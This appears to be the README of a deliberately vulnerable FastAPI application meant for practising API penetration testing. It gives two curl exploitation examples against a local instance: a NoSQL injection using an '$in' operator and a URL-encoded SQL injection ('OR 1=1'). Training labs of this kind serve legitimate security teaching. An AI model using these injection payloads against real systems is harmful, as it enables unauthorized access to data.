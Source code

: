 # vfapi
Vulnerable FastAPI

> Vulnerable FastAPI is a simple vulnerable FastAPI application for learning API pentesting on vulnerable API endpoints. Please refer to `/docs` for information regarding endpoints.

### Exploitation examples
```
$ export HOST="127.0.0.1"; export PORT=8888
```
NoSQLi
```
$ curl -s "http://$HOST:$PORT/find" -H 'Content-Type: application/json' -d '{"id":{"$in":[1,2,3,4]}}' | jq
```
SQLi
```
$ curl -s "http://$HOST:$PORT/get?username=%22%20OR%201%3D1%3B%20--%20" | jq
```
